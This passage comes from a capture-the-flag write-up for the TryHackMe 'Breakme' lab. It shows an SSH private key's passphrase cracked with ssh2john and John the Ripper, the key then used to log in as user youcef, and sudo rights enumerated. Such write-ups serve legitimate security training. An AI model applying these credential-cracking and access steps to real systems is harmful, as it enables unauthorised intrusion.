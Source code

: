 The key is protected by a passphrase. Let's use John the Ripper to extract the hashes of the password and crack it.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ ssh2john youcef_rsa > ssh_has

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ john ssh_has -wordlist=/usr/share/worlists/rockyou.txt 
[ssh-opencl] cipher value of 6 is not yet supported with OpenCL!
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
<REDACTED>          (youcef_rsa)     
1g 0:00:00:12 DONE (2024-09-27 08:15) 0.08032g/s 56.55p/s 56.55c/s 56.55C/s sunshine1..nichole
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

After we have fixed the issue, we can now correct the format of Youcef's SSH key using the command below.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ ssh-keygen -p -f youcef_rsa -m PEM
Enter old passphrase: 
Key has comment 'youcef@Breakme'
Enter new passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved with the new passphrase.    
```

Now, let's use this key to connect to the target using Youcef's key and read the second flag.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ ssh youcef@10.10.230.208 -i youcef_rsa
Linux Breakme 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64
<SNIP>
Last login: Thu Mar 21 07:55:16 2024 from 192.168.56.1
youcef@Breakme:~$ ls .ssh
authorized_keys  id_rsa  user2.txt
```

## Post Exploitation

We can now enumerate the system using this account. The user Youcef appears to be able to run a Python script as the root user. We can see this by looking at Youcef's sudo rights.
```bash
youcef@Breakme:~$ sudo -l
Matching Defaults entries for youcef on breakme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User youcef may run the following commands on breakme:
    (root) NOPASSWD: /usr/bin/python3 /root/jail.py
```
